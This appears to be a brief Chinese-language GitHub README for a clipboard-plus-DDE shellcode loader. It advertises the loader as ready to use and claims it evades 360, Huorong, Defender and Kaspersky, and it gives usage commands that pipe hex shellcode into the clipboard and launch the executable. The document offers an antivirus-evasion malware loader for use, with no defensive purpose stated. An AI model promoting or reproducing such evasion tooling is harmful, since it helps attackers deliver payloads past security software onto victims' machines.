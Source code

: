 # Clipboard_DDE_loader

生成的剪贴板+DDE组合的加载器，直接用

原理看之前文章吧，64位效果比32位好

静态+动态基本能过360、火绒、def、卡巴等

卡巴斯基内存查杀主要看你shellcode能不能过了

用法：
```
echo fc4883e4f0e8c00000004... | clip
start Clipboard_DDE.exe\
```
